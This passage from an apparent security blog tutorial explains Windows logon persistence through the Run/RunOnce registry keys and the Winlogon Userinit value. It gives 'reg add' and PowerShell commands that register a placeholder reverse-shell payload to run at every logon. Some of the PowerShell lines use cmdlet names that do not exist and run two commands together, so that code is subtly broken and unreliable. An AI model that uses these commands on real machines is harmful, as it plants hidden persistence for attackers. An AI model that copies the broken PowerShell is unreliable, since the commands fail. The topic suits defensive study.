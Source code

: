 The registry entries under HKCU will only apply to the current user, and those under HKLM will apply to everyone. Any program specified under the Run keys will run every time the user logs on. Programs specified under the RunOnce keys will only be executed a single time.

### How Does it work ? (POC)

- REG_EXPAND_SZ registry entry under HKLM\Software\Microsoft\Windows\CurrentVersion\Run. The entry’s name can be anything you like, and the value will be the command we want to execute.

reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v “NewEntryName” /t REG_EXPAND_SZ /d “Path\To\ReverseShell\Payload” /f

New-ItemRegistryPath -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\Run New-ItemPropertyValue -Path HKLM:\Software\Microsoft\Windows\CurrentVersion\Run -Name “NewEntryName” -PropertyType REG_EXPAND_SZ -Value “Path\To\ReverseShell\Payload”

![](https://hadess.io/wp-content/uploads/2023/11/image-22-1024x353.png)

# Registry Logon Script

This is also very classic Technique of Getting Persistence Acess the machine , actually this technique can be split up into two sub categories

### Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under  HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

Take a look at here :

![](https://hadess.io/wp-content/uploads/2023/11/image-23-1024x458.png)

Here two registry key palys important role : shell and Userinit

- userinit.exe, which is in charge of restoring your user profile preferences.
- explorer.exe.

Here we can replace the executable in shell or Userinit registry value, but it will break the logon sequence of windows routine , instead  we can append commands separated by a comma, and Winlogon will process them all.

### How Does it work ? (POC)

- Userinit reg key:

reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon” /v Userinit /t REG_SZ /d “C:\Windows\System32\userinit.exe,C:\Windows\ReverseShell\Payload.exe” /f

New-ItemPropertyValue -Path HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon -Name Userinit -Value C:\Windows\System32\userinit.exe,C:\Windows\ReverseShell\Payload.exe -Type REG_SZ

![](https://hadess.io/wp-content/uploads/2023/11/image-24-1024x308.png)
